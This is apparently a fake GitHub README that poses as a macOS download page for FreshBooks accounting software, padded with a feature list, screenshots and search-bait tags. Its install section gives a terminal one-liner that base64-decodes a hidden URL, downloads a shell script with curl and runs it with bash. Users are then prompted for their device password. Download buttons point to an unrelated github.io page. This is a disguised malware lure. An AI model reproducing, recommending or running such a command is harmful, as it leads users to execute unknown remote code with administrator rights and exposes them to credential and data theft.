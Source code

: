 # 🧾 FreshBooks — Easy Invoicing and Accounting Software for macOS

FreshBooks is an intuitive cloud-based accounting and invoicing solution designed for macOS users. It helps small business owners and freelancers manage invoices, track time, and handle expenses with ease and professionalism.

## ✅ Download FreshBooks for macOS  
[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://shuziktobehuman.github.io/huja/FreshBooks)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is FreshBooks?

FreshBooks offers simple yet powerful tools for invoicing, expense tracking, and financial reporting on macOS. Its user-friendly interface and automation features make bookkeeping and client billing fast and efficient.

---

## ✨ Features

- 🧾 Create and send professional invoices  
- ⏱️ Track time spent on projects and bill clients accurately  
- 💳 Accept online payments with multiple gateways  
- 🖥️ Optimized for macOS with Retina display support  
- 🔄 Sync data across Mac, iPhone, and iPad  
- 📊 Generate detailed financial and tax reports  
- 📥 Automatic expense tracking and receipt capture  

---

## 💡 Why Use FreshBooks?

- ✅ Simplifies billing and bookkeeping for small businesses  
- 🚀 Saves time with automation and easy-to-use tools  
- 💼 Enhances professionalism with customizable invoices  
- 📱 Manage your business finances from any Apple device  
- 🤝 Integrates with popular payment and business apps  

---

[![Download FreshBooks](https://img.shields.io/badge/Download-FreshBooks-blueviolet)](https://shuziktobehuman.github.io/huja/FreshBooks)

---

## 🖼️ Preview

![FreshBooks Screenshot 1](https://thewritelife.com/wp-content/uploads/2024/01/Freshbooks-Hacks_-6-Ways-to-Get-More-Out-of-This-Invoicing-Tool.jpg)  
![FreshBooks Screenshot 2](https://images.squarespace-cdn.com/content/5dc462aafe72563e84e0a77b/1584476994892-7THDRF1H5YLGG9GCCCI4/Freshbooks_1.png?format=1500w)

---

## 📌 Tags

freshbooks, freshbooks pricing, freshbooks accounting software, freshbooks invoice, freshbooks cost,  
fresh booking, fresh books price, freshbooks app, freshbooks bookkeeping, freshbooks accounting,  
my freshbooks, freshbooks software, freshbooks payments, freshbooks integrations, freshbooks demo,  
freshbooks time tracking, freshbooks alternative, freshbooks online, freshbooks discount, freshbooks download,  
fresh books accounting, freshbooks for small business, fresh books com, freshbooks bookkeeping software,  
my fresh books, freshbooks stripe, stripe and freshbooks, freshbooks barclays, barclays freshbooks,  
freshbooks ca, freshbooks mac, freshbooks mac download
